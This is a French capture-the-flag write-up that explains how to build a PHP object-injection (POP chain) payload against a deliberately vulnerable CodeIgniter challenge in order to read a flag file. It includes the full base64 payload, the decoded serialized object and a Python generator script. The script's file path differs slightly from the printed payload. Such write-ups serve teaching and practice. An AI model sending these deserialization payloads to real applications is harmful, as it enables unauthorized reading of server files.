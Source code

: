 ## Résumé
Le chall consiste à trouver la popchain qui permettra de lire le flag à la racine du serveur.

- Les joueurs ont accès au code source
- Le `unserialize()` qui permet d'exécuter la popchain est directement sur la page d'accueil.
- Il y a volontairement beaucoup de fichiers pour forcer les joueurs à trouver les fichiers qui peuvent être intéressants. L'utilisation d'un IDE (vscode, phpstorm, ...) est donc fortement recommandée pour naviguer entre toutes les classes.

## Solution
```
TzoyNzoiRG9jdHJpbmVcQ29tbW9uXExleGVyXFRva2VuIjoxOntzOjg6ImNhbGxhYmxlIjthOjE6e2k6MDtPOjE1OiJHdXp6bGVIdHRwXFBvb2wiOjE6e3M6ODoicGFzc3dvcmQiO2E6MTp7aTowO086NDM6IlN5bWZvbnlcUG9seWZpbGxcSW50bFxOb3JtYWxpemVyXE5vcm1hbGl6ZXIiOjI6e3M6ODoiZmlsZW5hbWUiO3M6MTc6Ii4uLy4uLy4uL2ZsYWcudHh0IjtzOjE2OiJhdXRob3JpemVkX2ZpbGVzIjthOjE6e2k6MDtzOjE3OiIuLi8uLi8uLi9mbGFnLnR4dCI7fX19fX19
```
Soit, quand on décode en **base64**:

```
O:27:"Doctrine\Common\Lexer\Token":1:{s:8:"callable";a:1:{i:0;O:15:"GuzzleHttp\Pool":1:{s:8:"password";a:1:{i:0;O:43:"Symfony\Polyfill\Intl\Normalizer\Normalizer":2:{s:8:"filename";s:17:"../../../flag.txt";s:16:"authorized_files";a:1:{i:0;s:17:"../../../flag.txt";}}}}}}
```

## Explication de la solution
Quand on arrive sur la page d'accueil du challenge, il n'y a qu'un seul champ qui demande d'entrer son adresse mail. On peut alors récupérer les sources du challenge et les ouvrir dans un IDE.

On remarque d'abord qu'il y a de nombreux fichiers. Le chall utilise le framework PHP CodeIgniter. De nombreuses librairies sont également installées dans `application/vendor/`. Il y a donc beaucoup de code et il faut d'abord comprendre comment fonctionne l'application et quel code est, ou peut être, exécuté.

On trouve que le code de la page d'accueil se situe dans le fichier `application/views/home.php`. On peut envoyer un mail via `$_POST[]` et on remarque alors que le mail est base64 décodé puis désérialisé. La désérialisation de données non vérifiées est extrêment dangereuse en php car elle permet l'instanciation d'objets en contrôlant leurs attributs. Il faut maintenant trouver une popchain, c'est à dire un ensemble de classes php vulnérables jusqu'à arriver à une lecture de fichiers.

Quand un objet est désérialisé, la méthode magique `__wakeup()` de sa classe est appelée si elle est implémentée. Le code de la fonction est alors exécuté. De même, lorsque la désérialisation se termine, la méthode magique `__destruct()` est appelée sur l'objet si celle-ci elle implémentée. On commence donc par chercher si ces 2 méthodes sont présentes dans l'ensemble des fichiers.

On trouve un `__wakeup()` dans la classe `FnStream`, mais celui-ci ne semble pas exploitable car il rejette directement une exception. On cherche alors les `__destruct()`. On obtient 9 résultats. Un résultat semble intéressant avec `call_user_func` mais il est dans la classe `FnStream` qui, comme on l'a vu, n'est pas désérialisable. 

Cependant, on remarque un 2eme résultat intéressant dans `application/vendor/doctrine/lexer/src/Token.php`. On peut appeler la méthode `funny_func()` d'une classe. On regarde alors si une telle méthode existe et on trouve un seul résulat dans `application/vendor/guzzlehttp/guzzle/src/Pool.php`. Dans cette méthode, on voit un `echo 'Funny information: '.$password;`. Cela semble très intéressant (rapport au nom du chall). On a notre point d'entrée !

On peut commencer à créer notre objet sérialisé directement avec php, ou comme ici avec la librairie python `phpserialize`.

```python
from phpserialize import phpobject, serialize

pool = phpobject("GuzzleHttp\Pool")

token = phpobject("Doctrine\Common\Lexer\Token",{
    "callable": [pool]
})

serialized_object = serialize(token)
print(f"Objet sérialisé:\n{serialized_object.decode()}\n")
```

On a créé un objet de la classe `Token` qui a un attribut `callable` qui est un tableau qui contient lui même un objet de la classe `Pool`.

Regardons maintenant plus en détails la fonction `funny_func()` de cette classe `Pool`. 
```php
public function funny_func(){
    $password = '';
    foreach ($this->password as $letter){
        $password .= $letter;
    }
    echo 'Funny information: '.$password;
}
```
La seule donnée que l'on maîtrise ici est `$this->password`. Mais rien d'intéressant semble se passer, on itère juste sur chaque lettre et affiche le mot de passe. Cepandant, si l'on essaye de concaténer un objet à une chaine de caractères, la méthode magique `__toString()` est appelé sur cet objet pour obtenir sa représentation textuelle.

Et ici, `$this->password` est en réalité un tableau et non une chaîne de caractères comme les noms laissaient suggérer. Donc, on peut fournir un objet et sa méthode `__toString()` sera appelée si elle existe. On cherche donc les classes qui implémentent cette méthode. On obtient 11 résultats.

Un seul de ces résultats saute aux yeux, car il appelle une fonction `read_file()`, ce qui est exactement ce qu'on cherche ici. Si l'on regarde le code de cette fonction, on voit qu'il suffit de spécifier un nom de fichier mais également une liste de fichiers autorisés, pour lire le contenu de n'importe quel fichier.

```php
private function read_file(): string
{
    if(!in_array($this->filename, $this->authorized_files,true)) {
        return "Not authorized to access file " . $this->filename;
    }
    if (!file_exists($this->filename)){
        return "File ".$this->filename." does not exists";
    }
    return file_get_contents($this->filename);
}
```

Il ne nous reste plus qu'à compléter notre script python puis à tester pour voir le comportement du site.

```python
from phpserialize import phpobject, serialize
from base64 import b64encode

normalizer = phpobject("Symfony\Polyfill\Intl\\Normalizer\\Normalizer",{
    "filename": "flag.txt",
    "authorized_files": ["flag.txt"]
})

pool = phpobject("GuzzleHttp\Pool",{
    "password": [normalizer]
})

token = phpobject("Doctrine\Common\Lexer\Token",{
    "callable": [pool]
})

serialized_object = serialize(token)

print(f"Objet sérialisé:\n{serialized_object.decode()}\n")
print(f"Base64:\n{b64encode(serialized_object).decode()}")
```

On obtient:
```
TzoyNzoiRG9jdHJpbmVcQ29tbW9uXExleGVyXFRva2VuIjoxOntzOjg6ImNhbGxhYmxlIjthOjE6e2k6MDtPOjE1OiJHdXp6bGVIdHRwXFBvb2wiOjE6e3M6ODoicGFzc3dvcmQiO2E6MTp7aTowO086NDM6IlN5bWZvbnlcUG9seWZpbGxcSW50bFxOb3JtYWxpemVyXE5vcm1hbGl6ZXIiOjI6e3M6ODoiZmlsZW5hbWUiO3M6MTc6Ii4uLy4uLy4uL2ZsYWcudHh0IjtzOjE2OiJhdXRob3JpemVkX2ZpbGVzIjthOjE6e2k6MDtzOjE3OiIuLi8uLi8uLi9mbGFnLnR4dCI7fX19fX19
```
Soit, quand on décode en **base64**:
```
O:27:"Doctrine\Common\Lexer\Token":1:{s:8:"callable";a:1:{i:0;O:15:"GuzzleHttp\Pool":1:{s:8:"password";a:1:{i:0;O:43:"Symfony\Polyfill\Intl\Normalizer\Normalizer":2:{s:8:"filename";s:17:"../../../flag.txt";s:16:"authorized_files";a:1:{i:0;s:17:"../../../flag.txt";}}}}}}
```

Et quand on lance la désérialisation via $_POST['mail'], on obtient:
```
Funny information: FLAG={FAKE_FLAG}
```

Le tour est joué :)
